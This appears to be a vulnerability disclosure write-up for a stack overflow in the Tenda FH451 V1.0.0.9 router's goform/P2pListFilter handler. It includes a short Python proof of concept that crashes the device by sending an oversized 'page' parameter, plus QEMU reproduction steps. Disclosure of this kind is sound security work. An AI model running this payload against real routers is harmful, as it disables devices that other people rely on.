






# The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability

Firmware download link:https://tenda.com.cn/material/show/101629

Vulnerability URL:http://192.168.100.157:80/goform/P2pListFilter

The vulnerability occurs in the function.`P2pListFilter`



The program obtains the user input parameter "page" but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or exploitation.
Cross-referenced to the function route `P2pListFilter` in the `fromP2pListFilter` function, line 101.



Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.



The path of the webpage where the vulnerability occurs is known to be `goform/P2pListFilter`.

payload:(python)

```python
import requests

url = "http://192.168.100.157:80/goform/P2pListFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

# Reproduction Steps

## Launch QEMU Emulation

Open the QEMU emulator to simulate the environment.




Main, here it says "page not found," meaning the gateway page was not found, not that the router is not running.

Run the script.





The router has crashed, and the web interface is also inaccessible.